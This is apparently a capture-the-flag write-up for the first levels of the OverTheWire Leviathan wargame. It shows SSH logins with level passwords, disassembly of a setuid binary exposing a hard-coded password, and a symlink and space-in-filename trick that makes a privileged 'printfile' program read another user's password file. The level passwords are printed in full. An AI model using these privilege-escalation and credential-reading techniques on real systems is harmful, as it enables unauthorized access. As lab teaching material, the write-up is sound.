 # Solution for [Leviathan Wargames](http://overthewire.org/wargames/leviathan/)



### [Level 0](http://overthewire.org/wargames/leviathan/leviathan1.html)
```sh
$ sshpass -p 'leviathan0' ssh leviathan0@leviathan.labs.overthewire.org -p 2223
$ grep -ne 'password' .backup/bookmarks.html
1049:<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```
``` FLAG: rioGegei8m```



### [Level 1](http://overthewire.org/wargames/leviathan/leviathan2.html)
```sh
$ sshpass -p 'rioGegei8m' ssh leviathan1@leviathan.labs.overthewire.org -p 2223
```

Binary `check` has been analyzed under `radare2` and it showed us following dissasmenbly.
```
  int main (int argc, char **argv, char **envp);
; var int32_t var_20h @ ebp-0x20
; var int32_t var_1ch @ ebp-0x1c
; var int32_t var_1bh @ ebp-0x1b
; var int32_t var_17h @ ebp-0x17
; var int32_t var_13h @ ebp-0x13
; var int32_t var_11h @ ebp-0x11
; var char *s2 @ ebp-0x10
; var char *s1 @ ebp-0xc
; var int32_t var_bh @ ebp-0xb
; var int32_t var_ah @ ebp-0xa
; var int32_t var_9h @ ebp-0x9
; var int32_t var_8h @ ebp-0x8
; arg int32_t arg_4h @ esp+0x4
0x0804853b      lea     ecx, [arg_4h]
0x0804853f      and     esp, 0xfffffff0
0x08048542      push    dword [ecx - 4]
0x08048545      push    ebp
0x08048546      mov     ebp, esp
0x08048548      push    ebx
0x08048549      push    ecx
0x0804854a      sub     esp, 0x20
0x0804854d      mov     dword [s2], 0x786573 ; 'sex'
0x08048554      mov     dword [var_17h], 0x72636573 ; 'secr'
0x0804855b      mov     word [var_13h], 0x7465 ; 'et'
0x08048561      mov     byte [var_11h], 0
0x08048565      mov     dword [var_1bh], 0x646f67 ; 'god'
0x0804856c      mov     dword [var_20h], 0x65766f6c ; 'love'
0x08048573      mov     byte [var_1ch], 0
0x08048577      sub     esp, 0xc
0x0804857a      push    str.password: ; 0x8048690 ; "password: " ; const char *format
0x0804857f      call    sym.imp.printf ; int printf(const char *format)
0x08048584      add     esp, 0x10
0x08048587      call    sym.imp.getchar ; int getchar(void)
0x0804858c      mov     byte [s1], al
0x0804858f      call    sym.imp.getchar ; int getchar(void)
0x08048594      mov     byte [var_bh], al
0x08048597      call    sym.imp.getchar ; int getchar(void)
0x0804859c      mov     byte [var_ah], al
0x0804859f      mov     byte [var_9h], 0
0x080485a3      sub     esp, 8
0x080485a6      lea     eax, [s2]
0x080485a9      push    eax        ; const char *s2
0x080485aa      lea     eax, [s1]
0x080485ad      push    eax        ; const char *s1
0x080485ae      call    sym.imp.strcmp ; int strcmp(const char *s1, const char *s2)
```

The most interesting lines:
* ``` 0x0804854d      mov     dword [s2], 0x786573 ; 'sex'``` - Sets `s2` pointer  to string `sex` ine the readonly memory. 


* ``` 0x08048587      call    sym.imp.getchar ; int getchar(void)
    0x0804858c      mov     byte [s1], al
    0x0804858f      call    sym.imp.getchar ; int getchar(void)
    0x08048594      mov     byte [var_bh], al
    0x08048597      call    sym.imp.getchar ; int getchar(void)
    0x0804859c      mov     byte [var_ah], al
    0x0804859f      mov     byte [var_9h], 0 ```
It reads 3 bytes from `getchar` function under address starting at `ebp-0xc`

* ``` 0x080485ae      call    sym.imp.strcmp ; int strcmp(const char *s1, const char *s2) ```
Compares `s1` and `s2`. Whe have to type `sex` string to the input to get a `/bin/sh`.

```
leviathan1@leviathan:~$ ./check 
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2       
ougahZi8Ta
```
``` FLAG: ougahZi8Ta```



### [Level 3](http://overthewire.org/wargames/leviathan/leviathan3.html)
```sh
$ sshpass -p 'ougahZi8Ta' ssh leviathan2@leviathan.labs.overthewire.org -p 2223

leviathan2@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Aug 26 22:26 .
drwxr-xr-x 10 root       root       4096 Aug 26 22:26 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26 22:26 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

Take a look on the `ltrace` output.
```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd674, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                = 39
geteuid()                                                                                                            = 12002
geteuid()                                                                                                            = 12002
setreuid(12002, 12002)                                                                                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
+++ exited (status 0) +++
```

To get a leviathan3 flag I did the following steps. 
```
$ mkdir -p    /tmp/leviathan_lu
$ touch       /tmp/leviathan_lu/file\ level3
$ ls -la      /tmp/leviathan_lu/
$ ln -s       /etc/leviathan_pass/leviathan3 /tmp/leviathan_lu/file
$ ls -la      /tmp/leviathan_lu/
$ ltrace      ./printfile "/tmp/leviathan_lu/file level3"

leviathan2@leviathan:~$ ./printfile "/tmp/leviathan_lu/file level3"
Ahdiemoo1j
/bin/cat: level3: No such file or directory
```
``` FLAG: Ahdiemoo1j```